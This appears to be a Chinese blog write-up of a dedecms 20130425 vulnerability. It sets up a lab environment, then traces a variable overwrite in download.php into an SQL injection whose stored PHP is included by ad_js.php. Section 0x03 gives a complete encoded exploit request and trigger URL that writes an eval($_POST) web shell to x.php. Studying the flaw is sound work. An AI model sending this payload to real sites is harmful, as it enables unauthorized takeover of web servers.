 ```yaml
---
layout: post
title: "dedecms download.php漏洞分析及利用"
---
```


该漏洞的EXP有很多文章分享，但是漏洞分析可能由于简单，所以没有人做分享，由于是第一篇文章，所以对环境的搭建也介绍一下 :)
<hr >


#### 0x0. 测试环境初始化

系统为：kali 2017.3

dedecms版本为： 20130425

web服务为： apache2

1.安装php5, php5-mysql,php5-gd,并安装apache2 php5模块

添加新的repo(为了安装php5，默认版本的源中只有php7)

	deb http://old.kali.org/kali sana main non-free contrib
	deb-src http://old.kali.org/kali sana main non-free contrib

	apt-get update

	apt-get install php5 php5-mysql php5-gd libapache2-mod-php5

2.关闭默认的apache2 php7的模块(我们测试的源码在php5版本)

	a2dismod php7.0
	systemctl restart apache2

在/var/www/html/下创建简单的info.php

	<?php phpinfo(); ?>

访问http://server-ip/info.php,检测是否能正常加载php5

3.创建mysql 库和用户权限(默认mysql kali自带)

配置mysql记录sql语句，在`/etc/mysql/mariadb.conf.d/50-server.cnf`

> general_log_file        = /var/log/mysql/mysql.log

> general_log             = 1
> 


	service mysql start
	mysql -uroot -p
	create database dedecms_20130425;
	grant all on dedecms_20130425.* to 'victim'@'127.0.0.1' identified by 'dedecms';
	flush privileges;

在/var/www/thml/下创建conn.php

	<?php
    $con = mysql_connect("127.0.0.1", "victim", "dedecms");
    if (!$con) {
        die('connect error!!!\n');
    }   
    echo "connected successfully\n";
    mysql_close($con);

访问http://server-ip/conn.php, 检测数据库连接

4.配置dedecms源码

最后将对应的dedecms的源码，放置到/var/www/html/dedecms目录下,并设置对应的权限

	chown www-data:www-data -R dedecms-20130425/	# www-data为apache2运行的用户

接着安装dedecms, http://server-ip/dedecms-20130425/install/index.php，检测画面如下

![dedecms]({{ '/images/201801/dedecms_0_1.png' | prepend: site.baseurl }})

gd我们已经安装，可以忽略这个错误，不会影响使用(后台登录可以正确识别出验证码)

![dedecms]({{ '/images/201801/dedecms_0_2.png' | prepend: site.baseurl }})

至此 我们的环境就已经搞定了

#### 0x01 漏洞描述

漏洞大致利用流程为： 先通过`/plus/download.php?open=1&arrs1[]=...&arrs2[]=...`(不展开详细的payload了)实现变量覆盖漏洞(dedecms这里是有防护变量覆盖，只是这次漏洞是由于arrs1和arrs2会在后续被chr函数处理，就是我们看到的一堆assic值)覆盖了全局变量`$_GLOBAL['cfg_dbprefix']`(payload中的arrs1就是代表的GLOBAL变量中的key值，而arrs2代表着是对应的value值)，覆盖后会在后续的`setquery`函数中将我们的payload拼接到SQL语句中，然后通过`/plus/ad_js.php?aid=1&nocache=1`的访问会将我们注入的payload查询输出到一个模板文件中，然后ad_js.php文件使用include包含该模板文件，触发了我们的payload，利用结束。

要实现getshell就需要把arrs2数组中的值直接添加`<?php $fp = @fopen(''x.php'', ''a'');@fwrite($fp, ''<?php eval($_POST[w]) ?>'');@fclose($fp);?>` 相当于`$_GLOBAL['cfg_dbprefix'] = <?php $fp = @fopen(''x.php'', ''a'');@fwrite($fp, ''<?php eval($_POST[w]) ?>'');@fclose($fp);?>`

#### 0x02 漏洞分析

数据流会先通过download.php中的include/common.inc.php,会通过以下代码检查

![dedecms]({{ '/images/201801/dedecms_2_1.png' | prepend: site.baseurl }})

下图为_RunMagicQuotes,在该函数中会递归检查，除了key还有value

![dedecms]({{ '/images/201801/dedecms_2_2.png' | prepend: site.baseurl }})

通过以上代码一般的变量覆盖漏洞利用是失效的，因为无法包含关键字cfg_

但是在检查完后的代码中，后续会判断是否引入dedesql.class.php文件(这个文件是利用的关键)

![dedecms]({{ '/images/201801/dedecms_2_3.png' | prepend: site.baseurl }})

cfg_mysql_type默认配置为mysqli, 后续判断的mysqli_init(一般都存在)，所以该漏洞触发是比较严苛的。

全局变量都存在`data/config.cache.inc.php`中

![dedecms]({{ '/images/201801/dedecms_2_4.png' | prepend: site.baseurl }})

关键文件`include/dedesql.class.php`文件，漏洞代码

![dedecms]({{ '/images/201801/dedecms_2_5.png' | prepend: site.baseurl }})

全局变量没有过滤arrs1，和arrs2，并且传入的值会被遍历 通过chr函数解析。

此刻可以成功替换`$_GLOBAL['cfg_dbprefix']`值

接着代码流会继续执行download.php中的以下代码

![dedecms]({{ '/images/201801/dedecms_2_6.png' | prepend: site.baseurl }})

会执行函数`ExecuteNoneQuery2`，定义在`include/dedesql.class.php`文件

![dedecms]({{ '/images/201801/dedecms_2_7.png' | prepend: site.baseurl }})

引入漏洞函数`setquery`，定义如下：

![dedecms]({{ '/images/201801/dedecms_2_8.png' | prepend: site.baseurl }})

str_replace函数就是漏洞点，`UPDATE #@__downloads SET downloads = downloads + 1 WHERE hash='$hash'` 这个是要执行的sql语句，通过setquery会讲`#@__`替换成为我们之前的`$_GLOBAL['cfg_dbprefix']`的值， 最终到数据库的语句就成为以下语句：

	Query UPDATE `dede_myad` SET  normbody='<?php $fp = @fopen(''x.php'', ''a'');@fwrite($fp, ''<?php eval($_POST[w]) ?>'');echo ''fuckdede'';@fclose($fp);?>'  where aid =1 #downloads` SET downloads = downloads + 1 WHERE hash='d41d8cd98f00b204e9800998ecf8427e'

会更新表`dede_myad`中的`normbody`中的值，`aid`为1.

更为关键的一点在利用中，访问`/plus/ad_js.php`,会先查询指定aid的normbody，并写入到模板，最后include触发漏洞。

![dedecms]({{ '/images/201801/dedecms_2_9.png' | prepend: site.baseurl }})

#### 0x03 漏洞利用

利用的2个前提

一个是版本：通过 /data/admin/ver.txt来确定 我使用的20130425

另外一个： `cfg_mysql_type == "mysqli"`,这个黑盒无法判断

因此利用的话只要版本合适，直接打payload，来检测

<pre>/plus/download.php?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=97&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=32&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=61&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=36&arrs2[]=102&arrs2[]=112&arrs2[]=32&arrs2[]=61&arrs2[]=32&arrs2[]=64&arrs2[]=102&arrs2[]=111&arrs2[]=112&arrs2[]=101&arrs2[]=110&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=120&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=32&arrs2[]=39&arrs2[]=39&arrs2[]=97&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=64&arrs2[]=102&arrs2[]=119&arrs2[]=114&arrs2[]=105&arrs2[]=116&arrs2[]=101&arrs2[]=40&arrs2[]=36&arrs2[]=102&arrs2[]=112&arrs2[]=44&arrs2[]=32&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=119&arrs2[]=93&arrs2[]=41&arrs2[]=32&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=101&arrs2[]=99&arrs2[]=104&arrs2[]=111&arrs2[]=32&arrs2[]=39&arrs2[]=39&arrs2[]=102&arrs2[]=117&arrs2[]=99&arrs2[]=107&arrs2[]=100&arrs2[]=101&arrs2[]=100&arrs2[]=101&arrs2[]=39&arrs2[]=39&arrs2[]=59&arrs2[]=64&arrs2[]=102&arrs2[]=99&arrs2[]=108&arrs2[]=111&arrs2[]=115&arrs2[]=101&arrs2[]=40&arrs2[]=36&arrs2[]=102&arrs2[]=112&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=32&arrs2[]=32&arrs2[]=119&arrs2[]=104&arrs2[]=101&arrs2[]=114&arrs2[]=101&arrs2[]=32&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=32&arrs2[]=61&arrs2[]=49&arrs2[]=32&arrs2[]=35
/plus/ad_js.php?aid=1&nocache=1

如果利用成功会在/plus/目录下写入x.php文件。
</pre>

#### 0x04 总结

漏洞利用可以能比较严格,漏洞虽然比较老，而且现在也找不到太多的实战目标， 不过通过了解漏洞的本质，可以让自己对漏洞的判断更加精确，让自己的基础更扎实。

